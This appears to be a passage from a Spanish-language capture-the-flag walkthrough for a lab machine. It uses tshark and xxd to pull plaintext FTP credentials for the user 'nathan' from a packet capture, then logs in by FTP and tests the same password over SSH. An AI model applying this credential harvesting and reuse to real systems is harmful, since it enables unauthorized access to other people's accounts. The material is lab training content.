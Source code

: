 ~~~ bash
   11   0.042235 192.168.196.1 → 192.168.196.16 TCP 68 54400 → 80 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 WS=256 SACK_PERM
   12   0.042273 192.168.196.16 → 192.168.196.1 TCP 68 80 → 54400 [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0 MSS=1460 SACK_PERM WS=128
   13   0.042471 192.168.196.1 → 192.168.196.16 TCP 62 54400 → 80 [ACK] Seq=1 Ack=1 Win=1051136 Len=0
   14   0.042529 192.168.196.1 → 192.168.196.16 HTTP 416 GET /static/main.css HTTP/1.1
~~~

En este caso veremos otros protocolos, para poder hacer uso de filtros por protocolos, indicaremos el parámetro `-Y`. Como la captura contiene tráfico por el protocolo `FTP`, podemos filtrar esto para ver si vemos información de algún usuario

~~~ bash
tshark -r 0.pcap -Tfields -e tcp.payload | xxd -ps -r | grep PASS -B 3

220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
~~~

Y logramos ver que el usuario `nathan` inicia sesión para el servicio `ftp`, podemos hacer dos cosas, o intentar usar estas credenciales para el protocolo `ssh` o `ftp` mismo. Al menos ya sabemos que estas credenciales aplican para el servicio `ftp`

~~~ bash
ftp nathan@10.10.10.245                                                                                                 
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||45435|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Mar 18 16:35 user.txt
drwxrwxr-x    2 1001     1001         4096 Mar 18 17:14 www
~~~

Si nos conectamos por `ftp` proporcionando la contraseña que extrajimos. lograremos ver la flag del usuario. Probaremos estas credenciales en `ssh` para verificar si se reutilizan

~~~ bash
ssh nathan@10.10.10.245                     
The authenticity of host '10.10.10.245 (10.10.10.245)' can\'t be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245\'s password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar 18 20:01:12 UTC 2025

  System load:  0.0               Processes:             229
  Usage of /:   36.7% of 8.73GB   Users logged in:       1
  Memory usage: 35%               IPv4 address for eth0: 10.10.10.245
  Swap usage:   0%

~~~